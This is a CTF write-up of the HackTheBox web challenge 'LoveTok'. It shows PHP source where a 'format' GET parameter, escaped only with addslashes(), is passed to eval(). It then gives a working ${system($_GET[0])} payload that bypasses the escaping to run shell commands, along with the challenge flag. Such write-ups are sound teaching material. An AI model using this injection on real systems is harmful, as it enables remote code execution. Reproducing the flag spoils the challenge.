 # LoveTok
> Write-up author: jon-brandy
## DESCRIPTION:
True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking 
your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. 
This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). 
Come and check it out, but don't try to cheat love because love cheats back. 💛

## HINT:
- NONE
## STEPS:
1. Open the host given.

```
http://178.62.88.144:30462/
```

![image](https://user-images.githubusercontent.com/70703371/208852818-eff7e27c-150b-4ef1-b1b9-7f0da03f284c.png)


2. When i clicked `try again`, new date & time displayed.

![image](https://user-images.githubusercontent.com/70703371/208853461-ab996aa8-b721-4125-af5c-c3cb13181231.png)


3. Notice we have `format` parameter.

![image](https://user-images.githubusercontent.com/70703371/208853448-88975e17-dbb5-46a5-bdc3-49d3540a1f92.png)

4. Anyway let's `unzip` the zip file given.

![image](https://user-images.githubusercontent.com/70703371/208854243-710879f2-d77f-40e6-a42f-10856b128208.png)


5. Jump to the extracted folder.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208854373-8d0707b3-beaf-40e2-9d71-87b266095bab.png)


6. Since i don't want to exploit in local, so let's jump to the `challenge` directory to find the source code.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208919382-2ceced11-9573-4aa3-b614-69afdb66ff59.png)


> INDEX.PHP

```php
<?php 
date_default_timezone_set('UTC');
spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
$router = new Router();
$router->new('GET', '/', 'TimeController@index');
$response = $router->match();
die($response);
```

7. Based from the `index.php` file, i let's open the `controller` directory.
8. Great we found the time controller source.

> TIMECONTROLLER.PHP

```php
<?php
class TimeController
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
```

9. Based from it we know that the value of `format` parameter passed to the TimeModel class.
10. Now let's check the `TimeModel.php` file in the **models** directory.


> TIMEMODEL.PHP

```php
<?php
class TimeModel
    public function __construct($format)
    {
        $this->format = addslashes($format);
        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }
    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }

```

11. Based from it, we know that the format parameter is sanitized by the `addslashes()` function.
12. The `addslashes()` function add a forward slash in front of these characters:

```
", ', \, NULL BYTE
```

13. At the `getTime()` function we realize that out input is executed inside the `eval()` function. 
14. `eval()` function is a vuln in php, because the attacker can utilize the func to do RCE to get the flag.
15. However, there's an `addslashes()` func, so we can't add the quote and do a system call resulting in RCE.
16. So i did a small outsource about how to bypass the `addslashes()` function.

```
THE LINK
https://www.programmersought.com/article/30723400042/
http://www.securityidiots.com/Web-Pentest/SQL-Injection/addslashes-bypass-sql-injection.html
```

17. When i add `${system("ls")}` as the format value, obviously it won't do anything.
18. Based from the article i read, we can utilize the GET parameter. Since %_GET is a dictionary, the key can be a number, hence we can add the 2nd parameter to be `anynum` equal to cat, ls, etc.
19. So our  shall look like this:

```php
${system($_GET[0])}&0=ls
```

> COMPLETE URL

```
http://178.62.88.144:30462/?format=${system($_GET[0])}&0=ls+--+/
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208931342-4fc7e15f-6190-4a02-93dd-04c6cc8da9ba.png)


20. Notice there's a flag file (?)

![image](https://user-images.githubusercontent.com/70703371/208931609-92b0f8d3-ba30-47b8-adb9-fe2da131f767.png)


21. Let's cat the file.

```php
${system($_GET[0])}&0=cat+/flagtERAM+--+/
```

> COMPLETE URL

```
http://178.62.88.144:30462/?format=${system($_GET[0])}&0=cat+/flagtERAM+--+/
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208932048-6effbed6-c242-4869-b2e3-f9afbd4840a2.png)


22. Got the flag!


## FLAG

```
HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}
```


## LEARNING REFERENCES

```
http://www.securityidiots.com/Web-Pentest/SQL-Injection/addslashes-bypass-sql-injection.html
https://www.programmersought.com/article/30723400042/
```

